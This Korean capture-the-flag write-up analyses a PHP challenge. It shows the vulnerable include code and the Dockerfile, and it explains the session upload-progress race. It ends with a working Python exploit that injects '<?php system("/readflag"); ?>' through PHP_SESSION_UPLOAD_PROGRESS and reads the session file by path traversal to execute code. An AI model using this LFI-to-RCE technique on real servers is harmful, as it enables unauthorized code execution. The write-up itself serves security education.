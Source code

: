 # 접근 방법
## 1. www.conf확인
`php_admin_value[session.upload_progress.enabled] = 1` PHP는 업로드 진행 상황을 추적할 수 있게 해준다. 이 기능을 보고 갈피를 잡았다.
`session.upload_progress.cleanup` 의 기본 값은 1이다, session.upload_progress.cleanup이 켜져 있는 경우, 모든 POST 데이터를 읽는 즉시 진행률 정보를 정리하기 때문에 빈 배열이 표시된다. 이를 막기 위하여 Race condition을 사용하여야한다.

## 2. 폴더 구조 확인
```php
<?php
    $page = $_GET['page'];
    if(isset($page)){
        include("./data/".$page);
    } else {
        header("Location: /?page=1");
    }
?>
```
```Dockerfile
FROM debian:bullseye

RUN DEBIAN_FRONTEND=noninteractive apt-get update && \
    apt-get install -y \
        nginx \
        php-fpm \
        libzip-dev \
        php-zip \
    && rm -rf /var/lib/apt/lists/

RUN rm -rf /var/www/html/*
COPY config/default /etc/nginx/sites-enabled/default
COPY config/www.conf /etc/php/7.4/fpm/pool.d/www.conf

COPY flag.txt config/readflag /
RUN chown 0:1337 /flag.txt /readflag && \
    chmod 040 /flag.txt && \
    chmod 2555 /readflag

COPY src /var/www/html/

RUN ln -sf /dev/stdout /var/log/nginx/access.log && \
    ln -sf /dev/stderr /var/log/nginx/error.log

RUN find / -ignore_readdir_race -type f \( -perm -4000 -o -perm -2000 \) -not -wholename /readflag -delete
USER www-data
RUN (find --version && id --version && sed --version && grep --version) > /dev/null
USER root

EXPOSE 80
CMD /etc/init.d/php7.4-fpm start && \
    nginx -g 'daemon off;'
```
- COPY src /var/www/html/를 보고 /var/www/html/가 웹의 루트 디렉토리라는걸 확인
```
/ (root)
  ├── var
  │   ├── lib
  │   │   └── php
  │   │       └── sessions
  └── www
      └── html
          └── (current directory)
```
1. /var/www/html/data에서 시작
> php 코드에서 /data위에서 실행을 한다
- ../->/var/www/data</br>
- ../->/var/www</br>
- ../->/var</br>
- ../->/</br>
    
2. 세션 진행사항 추적 경로 확인</br>
/var/lib/php/sessions/sess_{PHPSESSID}

## 3. 익스플로잇 코드 구성
익스플로잇 코드의 로직은 다음과 같다
1. 세션 파일로 /readflag를 실행하는 코드를 작성한다
2. 세션 파일은 지워지기 때문에 위에 코드를 무한히 반복한다
3. 동시에 /?page=/../../../../var/lib/php/sessions/sess_{PHPSESSID}를 읽어, 진행률 정보가 삭제되기 전에 읽기를 시도한다

## 4. 핵심코드 설명
```python
res = requests.post(url, files={
            'PHP_SESSION_UPLOAD_PROGRESS': (None, '<?php system("/readflag"); ?>'),
            'file': ('test', 'asdf')
        }, cookies={'PHPSESSID': 'test'})
```
`'PHP_SESSION_UPLOAD_PROGRESS': (None, '<?php system("/readflag"); ?>')`</br>
PHP_SESSION_UPLOAD_PROGRESS을 이용해 진행률 정보를 추적한다, 기본적으로 파일 데이터의 형태는 다음과 같은 튜플의 형태이다</br>
`{'field_name': (filename, filecontent, contenttype, headers)}`</br>
filename에 문자열이 들어올 경우, 세션 파일이 아닌 파일 처리 로직을 따라가기 때문에, PHP_SESSION_UPLOAD_PROGRESS를 통해 추적할 수 없다, 따라서 None으로 두었다 따라서 filecontent만 전달되게 된다</br>
filecontent는 php내용으로 업로드되서 실행되게 된다 이 실행내용은 PHP_SESSION_UPLOAD_PROGRESS를 통해 기록된다</br>
`'file': ('test', 'asdf')`</br>
파일 업로드 요청시에 file필드가 비어있는 경우, 서버가 이를 유효한 요청으로 인식하지 않고, 무시하게 된다. 따라서 아무거나 넣어줬다

# 익스플로잇 코드
```py
import threading
import requests

url = "http://apb2023.cstec.kr:8000"

def session1():
    while True:
        query = url + "/?page=../../../../" + "var/lib/php/sessions/sess_test"
        res = requests.get(query)
        if len(res.text) != 0:
            print(res.text)
            exit()

def session2():
    while True:
        res = requests.post(url, files={
            'PHP_SESSION_UPLOAD_PROGRESS': (None, '<?php system("/readflag"); ?>'),
            'file': ('test', 'asdf')
        }, cookies={'PHPSESSID': 'test'})

threading.Thread(target=session1).start()
threading.Thread(target=session2).start()
```
